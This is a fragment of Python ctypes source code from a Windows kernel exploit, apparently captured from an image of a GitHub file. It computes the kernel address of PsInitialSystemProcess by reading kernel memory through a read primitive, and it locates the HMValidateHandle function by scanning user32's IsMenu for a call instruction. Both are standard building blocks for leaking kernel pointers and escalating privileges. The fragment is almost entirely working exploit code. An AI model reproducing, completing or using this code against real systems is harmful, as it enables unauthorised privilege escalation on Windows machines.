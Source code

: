 ```
    debug_print("[+] Loading %s in Userland" % kernelImage)
    debug_print("[+] %s Userland Base Address : 0x%X" % (kernelImage, hKernelImage))
    kernel32.GetProcAddress.restype = c_ulonglong
    kernel32.GetProcAddress.argtypes = [HMODULE, LPCSTR]
    PsISP_user_address = kernel32.GetProcAddress(hKernelImage,"PsInitialSystemProcess")
    debug_print("[+] PsInitialSystemProcess Userland Base Address: 0x%X" % PsISP_user_address)

    # Calculate PsInitialSystemProcess offset in kernel land
    PsISP_kernel_address_ptr = kernel_image_base + ( PsISP_user_address - hKernelImage)
    debug_print("[+] PsInitialSystemProcess Kernel Base Address: 0x%X" % PsISP_kernel_address_ptr)

    PsISP_kernel_address = c_ulonglong()
    read_virtual(PsISP_kernel_address_ptr, byref(PsISP_kernel_address), sizeof(PsISP_kernel_address));    

    return PsISP_kernel_address.value


pHMValidateHandle = None    

def findHMValidateHandle():
    """ Searches for HMValidateHandle() function """
    global pHMValidateHandle

    kernel32.LoadLibraryA.restype = HMODULE
    hUser32 = kernel32.LoadLibraryA("user32.dll")

    kernel32.GetProcAddress.restype = c_ulonglong
    kernel32.GetProcAddress.argtypes = [HMODULE, LPCSTR]
    pIsMenu = kernel32.GetProcAddress(hUser32, "IsMenu")

    debug_print("[&gt;] Locating HMValidateHandle()")

    debug_print("t[+] user32.IsMenu: 0x%X" % pIsMenu)

    pHMValidateHandle_offset = 0

    offset = 0
    while (offset &lt; 0x100):
        tempByte = cast(pIsMenu + offset, POINTER(c_byte))
        # if byte == 0xE8
        if tempByte.contents.value == -24:
            pHMValidateHandle_offset = pIsMenu + offset + 1
            break
        offset = offset + 1

    debug_print("t[+] Pointer to HMValidateHandle offset: 0x%X" % pHMValidateHandle_offset)

    HMValidateHandle_offset = (cast(pHMValidateHandle_offset, POINTER(c_long))).contents.value
    #debug_print("t[+] HMValidateHandle offset: 0x%X" % HMValidateHandle_offset)

    # Add 0xb because relative offset of call starts from next instruction after call, which is 0xb bytes from start of user32.IsMenu
    pHMValidateHandle = pIsMenu + HMValidateHandle_offset + 0xb

    debug_print("t[+] HMValidateHandle pointer: 0x%X" % pHMValidateHandle)


WNDPROCTYPE = WINFUNCTYPE(c_int, HWND, c_uint, WPARAM, LPARAM)

class WNDCLASSEX(Structure):
    _fields_ = [("cbSize", c_uint),
                ("style", c_uint),
```